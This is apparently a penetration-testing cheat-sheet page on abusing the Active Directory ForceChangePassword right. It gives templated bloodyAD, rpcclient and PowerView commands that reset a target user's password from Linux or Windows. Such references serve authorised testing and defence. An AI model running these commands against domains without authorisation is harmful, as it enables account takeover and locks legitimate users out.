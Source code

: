 ```yaml
---
title: "ForceChangePassword"
date: 2024-7-18
tags: ["ForceChangePassword", "active driectory", "ad", "Windows"]
---
```


---
### Change target user password (From Linux)

{{< tab set1 tab1 active >}}BloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}rpcclient{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> set password <TARGET_USER> <NEW_PASSWORD>
```

</div>

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
rpcclient -U '<DOMAIN>/<USER>%<PASSWORD>' <TARGET> -c 'setuserinfo2 <TARGET_USER> 23 <TARGET_USER_NEW_PASSWORD>'
```

</div>

{{< /tabcontent >}}

### Change target user password (From Windows)

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView.ps1

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Change Target User Password

<div>

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```powershell
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

</div>

{{< /tabcontent >}}

<br>